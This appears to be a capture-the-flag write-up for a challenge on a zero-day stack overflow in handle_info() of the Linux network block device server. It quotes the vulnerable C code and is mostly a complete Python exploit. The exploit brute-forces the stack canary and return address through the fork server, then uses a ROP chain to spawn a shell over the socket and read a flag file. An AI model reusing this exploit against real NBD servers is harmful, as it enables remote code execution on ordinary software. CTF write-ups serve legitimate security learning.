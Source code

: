 # Who Moved My Block

Category: Clone-and-Pwn

Solves: 12

Points: 276

Main solvers: jinmo123, Qwaz

Write-up author: Qwaz

---

## Challenge Description

> On Linux, network block device (NBD) is a network protocol that can be used to forward a block device (typically a hard disk or partition) from one machine to a second machine. As an example, a local machine can access a hard disk drive that is attached to another computer.
>
> https://github.com/NetworkBlockDevice/nbd

## Write-up

Zero-day challenge in Linux network block device.
There is a buffer overflow in `handle_info()` function.

```c
static bool handle_info(CLIENT* client, uint32_t opt, GArray* servers, uint32_t cflags) {
	uint32_t namelen, len;
	char *name;
	int i;
	SERVER *server = NULL;
	uint16_t n_requests;
	uint16_t request;
	char buf[1024];
	bool sent_export = false;
	uint32_t reptype = NBD_REP_ERR_UNKNOWN;
	char *msg = "Export unknown";

	socket_read(client, &len, sizeof(len));
	len = htonl(len);
	socket_read(client, &namelen, sizeof(namelen));
	namelen = htonl(namelen);
	if(namelen > (len - 6)) {
		send_reply(client, opt, NBD_REP_ERR_INVALID, -1, "An OPT_INFO request cannot be smaller than the length of the name + 6");
		socket_read(client, buf, len - sizeof(namelen));
	}

    // ...
```

Both `len` and `namelen` can be controlled by an attacker,
so `socket_read()` lead to a stack overflow.
Thanks to the daemonized fork server,
we can brute-force the stack canary and get a shell with ROP.

```python
# Exploit written by jinmo123
from pwn import *
import multiprocessing

context.log_level = "error"
context.arch = "amd64"


def trial(args):
    (payload, oracle) = args
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    con = remote("47.242.113.232", 49191)

    con.send(
        flat(
            p32(1, endian="big") + b"IHAVEOPT",
            # NBD_OPT_INFO to trigger handle_info
            p32(6, endian="big"),
            p32(len(payload) + 4, endian="big"),  # len
            p32(0x2000, endian="big"),  # namelen
            payload,
            b"x" * 0x2000,
            p16(0),
        )
    )
    if oracle is None:
        return con
    con.send(
        b"IHAVEOPT" + p32(5, endian="big") + p32(0, endian="big") * 2,
    )
    try:
        con.shutdown(socket.SHUT_WR)
    except:
        pass
    payload = b""
    while True:
        try:
            chunk = con.recv(1024)
        except:
            break
        if not chunk:
            break
        payload = payload + chunk
    if oracle(payload):
        print("yey")
        return True


def is_tls(payload):
    return b"TLS" in payload


def is_zero(payload):
    return payload[-1] == 0


def main():
    canary = b"\x00"
    p = multiprocessing.Pool(4)
    while len(canary) < 8:
        base = b"x" * 1032 + canary
        canary += bytes(
            [
                p.map(trial, [(base + bytes([i]), is_tls) for i in range(256)]).index(
                    True
                )
            ]
        )
        print(canary)

    retaddr = b"\xac"
    while len(retaddr) < 6:
        base = b"x" * 1032 + canary + b"x" * 0x20 + p64(4) + p64(0) * 2 + retaddr
        target = range(256) if len(retaddr) > 1 else range(0xD, 256, 16)
        res = bytes(
            [p.map(trial, [(base + bytes([i]), is_zero) for i in target]).index(True)]
        )
        if len(retaddr) == 1:
            res = bytes([res[0] * 0x10 + 0xD])
        retaddr += res
        print(canary, retaddr)

    cmd = b"/bin/sh <&4 >&4\x00"
    binary = u64(retaddr + b"\x00\x00") - 0xBDAC
    _ = lambda x: binary + x
    bss = 0x13200
    con = trial(
        (
            flat(
                {
                    1032: [
                        canary,
                        0,
                        0,
                        1,
                        4,
                        _(bss),
                        len(cmd),
                        _(0x12D00),
                        _(0xC290),
                        0,
                        0,
                        0,
                        0,
                        0,
                        0,
                        0,
                        _(0x4518),
                        _(0x4A58),
                        _(bss),
                        _(0x3BB0),
                    ]
                }
            ),
            None,
        )
    )
    con.send(cmd)
    con.send(b"cat /mnt/flag.txt >&4; cat<&4\n")
    while True:
        print(con.recv(1024))


if __name__ == "__main__":
    main()
```
